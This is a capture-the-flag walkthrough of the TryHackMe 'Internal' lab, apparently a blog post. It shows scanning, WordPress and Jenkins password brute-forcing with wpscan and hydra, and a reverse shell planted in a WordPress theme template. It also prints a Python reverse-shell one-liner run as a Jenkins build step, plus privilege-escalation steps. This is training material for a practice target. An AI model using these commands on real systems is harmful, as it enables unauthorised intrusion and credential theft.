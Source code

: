 ```yaml
---
slug: internal-walkthrough
title: TryHackMe - Internal - Walkthrough
authors: bw
tags: [learning, internal, tryhackme, walkthrough]
---
```


This is a walkthrough of the [TryHackMe][thm] room: [Internal][internal]. Let’s get started!
<!-- truncate -->

This room is designed to be as close to a “real-world” pentest as possible. It comes with a Scope of Work (SOW) so make sure to read through that, and understand it. Then let’s start with enumeration.

# User Flag
Let’s start by scanning the server using rustscan. This is a much faster scanner than `nmap`, and I like using it because it scans all 65535 ports and then passes the open ones to `nmap`. You can find more about it [here][rustscan].

rustscan command: `rustscan -a <machine_ip> -- -A -A`

![i1](/img/thm/internal/i1.webp)

Looks like we have 22 and 80 open. Let’s visit the website!

![i2](/img/thm/internal/i2.webp)

Looks like we have a default page. We can run `dirsearch` to enumerate directories.

`dirsearch -u http://<machine_ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e html,php -t 100`

Right away we find a few options. Let’s check them out.
**NOTE:** Make sure to add the `<machine_ip> internal.thm` to your `/etc/hosts` file or some of the sites may not work.

We find a `/wordpress` directory. When we navigate there, we find a link for a login page.

![i3](/img/thm/internal/i3.webp)

At `/blog` we find the blog page of the wordpress site. There also is a `/phpmyadmin` page. Wow! Lot’s to work with here. I am going to leave `dirsearch` running in the background and start with WordPress. Let’s scan it! I am going to use `wpscan` for this. This can be found [here][wpscan].

`wpscan --url http://internal.thm/wordpress -e u`

![i4](/img/thm/internal/i4.png)

If you take a look at the enumerated users, we see an `admin` user. Let’s see if we can brute force the login!

`wpscan --url http://internal.thm/wordpress -U admin -P rockyou.txt`

![i6](/img/thm/internal/i6.png)

Let’s login!

Once we login, we know we can always do a reverse shell! Let’s get the reverse-shell from [here][rev-sheet]. Change the IP and Port.

Now navigate to the **Theme Editor**. Select **404 Template** from the **Theme Files**

Paste in your reverse-shell code. Start a netcat listener. `nc -nvlp 1234`

Navigate to:

`http://internal.thm/wordpress/wp-content/themes/twentyseventeen/404.php`

Let’s just start by looking around. I stumble upon the `/opt` folder and there is an interesting file: `wp-save.txt` We find some credentials in here!

![i8](/img/thm/internal/i8.png)

Let’s try to ssh into the machine with those credentials!

We are in! Let’s see if there is a `user.txt` flag!

![i9](/img/thm/internal/i9.png)

# Root Flag
Now we need to do some privilege escalation. Let’s use [LinPEAS][linpeas] for this! Get it onto the system by starting a python http server:

`python3 -m http.server 80`

And then download onto the server with `wget`

`wget http://<thm_ip>/lin.sh`

Make sure to `chmod +x lin.sh` and then run it: `./lin.sh`

That didn’t come back with a ton of useful info, but there was a lot there. I did see a `jenkins.txt` in the `/home/aubreanna` directory earlier.

![i10](/img/thm/internal/i10.png)

We may be able to access this with `ssh` tunneling! On our machine:

`ssh -L 1235:172.17.0.2:8080 aubreanna@<machine_ip>`

In your browser, navigate to: `localhost:1235`

We have a login page!

![i11](/img/thm/internal/i11.png)

Let’s checkout a POST request to the server. We can try to brute force the login with `hydra`

![i12](/img/thm/internal/i12.png)

Use this info to create our `hydra` command:

```bash
hydra -l admin -P rockyou.txt 127.0.0.1 -s 1235 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```

We found credentials!

![i13](/img/thm/internal/i13.png)

Login with those credentials. Let’s create a New Project. Name it whatever you want, and navigate to the **Build** tab and select: **Execute shell**. Now let’s have Jenkins execute a reverse shell back to our machine (If one doesn’t work, there are many others you can try: [Link][rev-sheet]):

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<machine_ip",2345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**Save** this build. Now start a netcat listener on your machine: `nc -lvnp 2345`

Select **Build Now** in **Jenkins**.

Success! Now let’s look around! Eventually, we find a `note.txt` in `/opt`

![i14](/img/thm/internal/i14.webp)

Let’s `ssh` into the machine with the `root` credentials!

Now let’s print the `root.txt` flag!

![i15](/img/thm/internal/i15.png)

# Review
Wow. That is all I can say. This was definitely a tough one for me and took a ton of patience and looking around. Not only with the various points of entry that can eat up a lot of time, but also having to research some new ways to exploit the machine! Great job to the creator: TheMayor!

# References
[TryHackMe][thm] | [Internal Room][internal] | [Rustscan][rustscan] | [WPScan][wpscan] | [LinPEAS][linpeas] | [Reverse Shell Cheat Sheet][rev-sheet]

[thm]: https://tryhackme.com
[internal]: https://tryhackme.com/r/room/internal
[rustscan]: https://github.com/RustScan/RustScan
[wpscan]: https://github.com/wpscanteam/wpscan
[linpeas]: https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
[rev-sheet]: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet